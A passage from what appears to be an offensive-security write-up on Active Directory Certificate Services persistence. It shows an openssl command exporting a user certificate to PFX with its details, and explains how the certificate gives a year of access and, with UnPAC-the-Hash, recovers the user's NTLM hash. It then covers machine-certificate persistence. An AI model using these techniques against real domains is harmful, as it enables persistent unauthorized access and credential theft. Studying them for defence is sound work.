 ```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1-DA.pfx

    Enter Export Password:
    Verifying - Enter Export Password:

    Get-PfxCertificate -FilePath .\sora-DA.pfx | select *

    EnhancedKeyUsageList : {Client Authentication (1.3.6.1.5.5.7.3.2), Server Authentication (1.3.6.1.5.5.7.3.1), Smart Card Logon (1.3.6.1.4.1.311.20.2.2), KDC Authentication (1.3.6.1.5.2.3.5)}
    DnsNameList          : {Daniel Moura}
    SendAsTrustedIssuer  : False
    Archived             : False
    Extensions           : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid...}
    FriendlyName         :
    IssuerName           : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    NotAfter             : 1/10/2026 11:43:37 PM
    NotBefore            : 1/10/2025 11:43:37 PM
    HasPrivateKey        : True
    PrivateKey           : System.Security.Cryptography.RSACryptoServiceProvider
    PublicKey            : System.Security.Cryptography.X509Certificates.PublicKey
    RawData              : {48, 130, 5, 233...}
    SerialNumber         : 54000000150B74ED4CF8ADD060000000000015
    SubjectName          : System.Security.Cryptography.X509Certificates.X500DistinguishedName
    SignatureAlgorithm   : System.Security.Cryptography.Oid
    Thumbprint           : 1DD7B7333ECCF32A83DB5C86CEA9B80B0833C285
    Version              : 3
    Handle               : 2734492773680
    Issuer               : CN=CORP-CA, DC=CORP, DC=LOCAL
    Subject              : CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
```

Now, with the certificate in hand, I keep it with me, and for 1 year, I will have this persistence through the user. By combining it with UnPAC-The-Hash, you will always be able to retrieve the current NTLM hash of that user as long as the certificate remains valid 😏.

In my context, I spoke about a vulnerable template, but ideally, as I mentioned above, you would issue this certificate from a standard ADCS template, like the **User** template. Next, we will look at how to implement persistence on machines.

# Persistence by machine certificate

Machine persistence with certificates follows the same concept as before, but instead of needing a high-privilege user, you need to be SYSTEM on the machine. Machine persistence also has its advantages, such as:
<br><br>
- The certificate lasts for 1 year and can be renewed when it is about to expire.
- Even if the computer changes its password, the certificate will still work.
- Even if the computer is reformatted, if it returns to the network with the same name, the certificate will still be valid (THIS IS UNREAL MICROSOFT LMFAAAO).
    * If there is a change in the machine's SID, then the certificate becomes invalid. If the machine is formatted normally, it will have the same SID; if it is formatted and there is a change in hardware, the SID will change.
    * However, with new updates to Certipy/fy, you can specify the SID you want to use in the certificate.

